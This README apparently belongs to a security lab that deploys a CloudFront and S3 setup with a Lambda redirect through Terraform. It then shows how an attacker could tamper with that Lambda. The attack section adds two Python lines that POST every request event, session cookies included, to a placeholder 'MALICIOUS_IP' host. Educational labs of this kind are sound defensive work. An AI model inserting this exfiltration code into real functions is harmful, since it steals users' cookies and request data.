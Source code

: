# CloudFront Scenario 2: Exploiting AWS Lambda Function

## Overview

This setup deploys an AWS CloudFront distribution backed by an S3 bucket. The bucket contains two files: `index.html` and `login.html`. The `login.html` simulates a login page by setting a random cookie named `session-id` for the user. Additionally, a Lambda function checks for the presence of this cookie and redirects users to the login.html if it's missing.

## Prerequisites

- AWS CLI configured with necessary permissions.
- Terraform installed.

## Deploying the Infrastructure

1. **Initialize Terraform**:
    ```bash
    terraform init
    ```

2. **Review Changes**:
    ```bash
    terraform plan
    ```

3. **Deploy Resources**:
    ```bash
    terraform apply
    ```

4. **Update the Lambda Function**:
    - After the initial `terraform apply`, you will receive an output containing the domain URL for the CloudFront distribution.
    - Open the Lambda function code and replace the `CHANGEME` placeholder with the received domain.
    - Save the changes.

5. **Reapply Terraform Changes**:
    ```bash
    terraform apply
    ```

6. **Access CloudFront**: After the second apply, accessing the CloudFront URL will lead you to `index.html`, the lambda will redirect you to `login.html`. The latter sets a random "cookie" to simulate a login page.

## Attacking the Infrastructure

The goal of this exercise is to demonstrate how attackers might harm an AWS infrastructure as detailed in the article:

1. **Modify the Lambda Function**:
    - Import the required modules: `http.client` and `json`.
    - Add the following lines to the handler:
        ```python
        conn = http.client.HTTPConnection("MALICIOUS_IP", 80)
        conn.request("POST", "/", json.dumps(event).encode('utf-8'))
        ```
    - Ensure you replace `MALICIOUS_IP` in the script with the IP of your server where you want to capture cookies.
    - Save the changes.

2. **Update the Lambda Function**:
    - Publish a new version of the modified Lambda function.
    - Update the CloudFront distribution to use this new version of the Lambda function.

From this point on, all user requests routed through CloudFront will also be sent to the specified `MALICIOUS_IP`.

## Cleanup

To avoid incurring additional charges, ensure you destroy the Terraform-managed resources once done:

```bash
terraform destroy
```

⚠️ **Warning** ⚠️

> The content and techniques described here are meant for educational and awareness purposes only. Always be cautious when testing and use only in safe, controlled environments. Unauthorized use or misuse can lead to legal consequences and potential harm.